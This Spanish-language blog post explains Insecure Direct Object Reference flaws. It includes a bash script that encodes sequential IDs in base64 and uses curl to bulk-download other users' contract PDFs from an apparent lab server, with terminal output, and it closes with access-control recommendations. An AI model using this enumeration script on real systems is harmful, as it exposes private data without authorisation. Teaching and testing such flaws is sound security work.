 ```yaml
---
date: 2024-05-26T05:15:05.000Z
layout: post
comments: true
title: Insecure Direct Object References (IDOR)
subtitle: 'Control de acceso'
description: >-
image: >-
    /images/idorportada.png
optimized_image: >-
    /images/idorportada.png
category: ciberseguridad
tags: 
  - hacking
  - owasp
  - web
  - access
author: Felipe Canales Cayuqueo
paginate: true
---
```


Las vulnerabilidades de **Referencias Directas a Objetos Inseguros (IDOR)** son un tipo común de problema de seguridad en aplicaciones web. Estas ocurren cuando una aplicación web gestiona directamente referencias a objetos internos, como archivos o entradas de base de datos, a través de identificadores que son visibles y manipulables por el usuario, como en URLs o formularios.

Esto puede exponer a la aplicación a:

- **Divulgación de información**: Puedes acceder a datos sensibles de otros usuarios, como información financiera.
- **Modificación no autorizada**: Podrías alterar o eliminar datos de otros usuarios si la URL te permite realizar estas acciones.
- **Elevación de privilegios**: Si manipulas parámetros en la URL para acceder a funciones administrativas, podrías realizar acciones reservadas solo para los administradores.

### Ejemplo

Una aplicación web te permite visualizar tu perfil mediante un enlace del tipo `/profile/api.php/profile/1`. Este enlace muestra directamente datos de tu perfil por medio de una API. 

[![idor10](/images/idor10.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor10.png)

[![idor11](/images/idor11.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor11.png)

Si cambias el número de  `/profile/api.php/profile/1` en la URL a `4`, podrías acceder a datos de otros usuarios registrados si la aplicación no verifica adecuadamente tus permisos.

[![idor12](/images/idor12.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor12.png)

[![idor13](/images/idor13.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor13.png)


### Bypassing Encoded References

En muchos sistemas, los identificadores de objetos, como IDs de usuario o archivos, se transmiten en formatos codificados (por ejemplo, base64) para disfrazar la información o integrarse con tecnologías web de manera más fluida. Una vez que el atacante comprende cómo se estructuran los identificadores, puede modificarlos para intentar acceder a objetos a los que no debería tener acceso. Esto podría incluir cambiar un número de ID en un URL, parámetro de formulario o dentro de una cookie. 

Consideremos el siguiente ejemplo, donde se identifica el parámetro `contract`. Como se observa, este parámetro está codificado para URL.

[![idor7](/images/idor7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor7.png)

[![idor8](/images/idor8.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor8.png)

Para determinar el proceso de codificación, se puede analizar el código fuente. Esto permite comprender su funcionamiento y facilita la creación de un script que extraiga la información de manera efectiva.

[![idor9](/images/idor9.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/idor9.png)


- **Codificación en base64**: Usa el comando `echo -n $i | base64` para convertir cada número a base64.
- **Codificación URL**: Las cadenas base64 pueden contener los caracteres `+`, `/` y `=`, los cuales necesitan ser codificados para URLs para prevenir problemas en la interpretación de la URL.
- **Construcción de la URL completa**: Combina la URL base con la cadena codificada.
- **Descarga del archivo**: Usa `curl` para descargar el archivo y lo guarda con un nombre basado en el número de iteración.


```bash
#!/bin/bash

downloadContracts() {
  base_url="http://94.237.54.214:45922/download.php?contract="

  for i in {1..20}; do
    # Codificar el número en base64
    encoded=$(echo -n $i | base64)

    # Codificar la salida base64 para URL (reemplaza '+' por '%2B', '/' por '%2F' y '=' por '%3D')
    url_encoded=${encoded//+/%2B}
    url_encoded=${url_encoded//\//%2F}
    url_encoded=${url_encoded//=/%3D}

    # Construir la URL completa
    full_url="${base_url}${url_encoded}"

    # Descargar el archivo
    curl -o "contract_${i}.pdf" "${full_url}"
  done
}

# Llamada a la función
downloadContracts             
```

```bash
┌─[root@kali]─[/home/user/idor]
└──╼ chmod +x downloadcontracts.sh

┌─[root@kali]─[/home/user/idor]
└──╼ ./downloadcontracts.sh   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    30  100    30    0     0     72      0 --:--:-- --:--:-- --:--:--    72

┌─[root@kali]─[/home/user/idor]
└──╼ ls
contract_10.pdf  contract_12.pdf  contract_14.pdf  contract_16.pdf  contract_18.pdf  contract_1.pdf   contract_2.pdf  contract_4.pdf  contract_6.pdf  contract_8.pdf  downloadcontracts.sh
contract_11.pdf  contract_13.pdf  contract_15.pdf  contract_17.pdf  contract_19.pdf  contract_20.pdf  contract_3.pdf  contract_5.pdf  contract_7.pdf  contract_9.pdf        
```


### Recomendaciones

- Desarrollar un sistema robusto de control de acceso basado en roles (RBAC) para gestionar los permisos de los usuarios. Este sistema debe ser el núcleo de la aplicación y soportar la segmentación centralizada de roles y permisos.
- Asegurarse de que cada objeto y recurso en la aplicación esté asignado a roles específicos. Validar cada solicitud en el back-end para permitir o rechazar el acceso según los privilegios del rol del usuario.
- Los roles y privilegios del usuario deben gestionarse únicamente en el servidor, utilizando tokens de sesión seguros para autenticación y autorización.
- Implementar identificadores únicos y difíciles de adivinar, como UUIDs, para referenciar objetos en lugar de identificadores secuenciales o en texto claro.
- Generar y almacenar hashes de referencia de objetos en el servidor al momento de la creación del objeto. No calcular hashes en el front-end.
- Validar cada solicitud en el servidor para verificar que el usuario tiene los permisos adecuados antes de conceder acceso a cualquier recurso.
